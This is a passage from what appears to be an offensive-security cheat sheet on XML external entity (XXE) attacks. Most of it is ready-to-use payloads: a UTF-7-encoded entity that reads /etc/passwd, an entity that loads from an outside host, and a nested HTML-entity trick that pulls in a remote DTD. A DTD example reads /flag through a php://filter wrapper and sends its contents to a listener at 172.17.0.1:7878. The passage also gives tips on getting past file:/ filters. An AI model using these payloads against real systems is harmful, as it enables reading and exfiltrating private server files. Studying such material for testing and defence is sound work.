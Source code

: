 ```markup
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

```markup
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

### File:/ Protocol Bypass

If the web is using PHP, instead of using `file:/` you can use **php wrappers**`php://filter/convert.base64-encode/resource=` to **access internal files**.

If the web is using Java you may check the [**jar: protocol**](xxe-xee-xml-external-entity.md#jar-protocol).

### HTML Entities

Trick from [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)\
You can create an **entity inside an entity** encoding it with **html entities** and then call it to **load a dtd**.\
Note that the **HTML Entities** used needs to be **numeric** (like \[in this example]\([https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,'Numeric entities'%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\\](https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,%27Numeric%20entities%27%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B\)%5C)).

```markup
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD example:

```markup
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

## PHP Wrappers
